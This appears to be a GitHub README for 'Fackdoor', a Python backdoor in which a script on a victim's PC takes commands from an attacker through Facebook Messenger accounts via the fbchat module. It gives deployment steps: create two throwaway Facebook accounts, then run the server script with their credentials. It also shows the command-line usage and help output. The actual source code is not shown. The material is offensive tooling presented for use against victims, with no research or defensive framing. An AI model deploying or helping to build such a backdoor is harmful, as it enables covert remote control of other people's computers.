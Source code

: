 # Fackdoor
a backdoor written in python but the vicim and the attacker's pc communicate through fbchat module 
the backdoor_victim script connects to the fb act given by the user and starts listening for messages (commands) sent by the account made for the backdoor_server script and that way you can even send commands to the pc by your phone 

### Usage
First create 2 random facebook accounts
then run the backdoor_server script with the server_act username and the server_act pwd
and victim_act username and the victim_act pwd

```
python backdoor_server.py -sa <server_act username> -sp <server_act pwd> -va <victim_act username> -vp <victim_act pwd>
```
to get the help of the commands use
```
python backdoor_server.py --help
```
```
usage: backdoor_server.py [-h] [-sa SERVERACTNAME] [-sp SERVERACTPWD]
                          [-va VICTIMACTNAME] [-vp VICTIMACTPWD]

Backdoor using FB

optional arguments:
  -h, --help            show this help message and exit
  -sa SERVERACTNAME, --serveractname SERVERACTNAME
                        attacker 'fb' act name
  -sp SERVERACTPWD, --serveractpwd SERVERACTPWD
                        attacker 'fb' act pwd
  -va VICTIMACTNAME, --victimactname VICTIMACTNAME
                        victim 'fb' act name
  -vp VICTIMACTPWD, --victimactpwd VICTIMACTPWD
                        victim 'fb' act pwd
```